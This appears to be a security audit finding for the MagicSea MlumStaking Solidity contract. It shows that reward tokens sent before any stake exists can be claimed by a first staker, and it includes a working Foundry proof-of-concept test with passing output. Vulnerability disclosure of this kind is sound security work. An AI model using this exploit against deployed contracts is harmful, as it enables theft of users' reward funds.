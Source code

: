 Glorious Garnet Stallion

Medium

# If owner send reward token after mlumstaking contract deployment the reward token can be stolen

## Summary
If owner send reward token after mlumstaking contract deployment the reward token can be stolen

## Vulnerability Detail
From the [code](https://github.com/sherlock-audit/2024-06-magicsea/blob/main/magicsea-staking/src/MlumStaking.sol#L574-L590)
```solidity
    function _updatePool() internal {
        uint256 accRewardsPerShare = _accRewardsPerShare;
        uint256 rewardBalance = rewardToken.balanceOf(address(this)); 
        uint256 lastRewardBalance = _lastRewardBalance;

        // recompute accRewardsPerShare if not up to date
        if (lastRewardBalance == rewardBalance || _stakedSupply == 0) {  <@
            return;
        }

        uint256 accruedReward = rewardBalance - lastRewardBalance;
        _accRewardsPerShare =
            accRewardsPerShare + ((accruedReward * (PRECISION_FACTOR)) / (_stakedSupplyWithMultiplier));

        _lastRewardBalance = rewardBalance;

        emit PoolUpdated(_currentBlockTimestamp(), accRewardsPerShare);
    }
```
`accruedReward` would not be accumulated if `lastRewardBalance == rewardBalance` or `_stakedSupply == 0` 
if someone send reward token to staking contract before user create position the reward token can be stoken

test:
```solidity
    function testUpdatePoolCustom() public {
        //send reward token 
        _rewardToken.mint(address(_pool), 100_000_000);

        _stakingToken.mint(ALICE, 1 wei);

        //alice create position.
        vm.startPrank(ALICE);
        _stakingToken.approve(address(_pool), 1 wei);
        _pool.createPosition(1 wei, 0);
        vm.stopPrank();

        //alice reward token init
        assertEq(_rewardToken.balanceOf(ALICE), 0);

        //alice withdraw 1wei in same block
        vm.prank(ALICE);
        _pool.withdrawFromPosition(1, 1 wei);

        //alice claimed all reward token.
        assertEq(_rewardToken.balanceOf(ALICE), 100_000_000);
    }
```

out:

```shell
Ran 2 tests for test/MlumStaking.t.sol:MlumStakingTest
[PASS] testUpdatePoolCustom() (gas: 473995)
Logs:
```

## Impact
reward token can be stoken

## Code Snippet
https://github.com/sherlock-audit/2024-06-magicsea/blob/main/magicsea-staking/src/MlumStaking.sol#L574-L590
## Tool used

Manual Review

## Recommendation
not send reward token before when `_stakedSupply == 0 `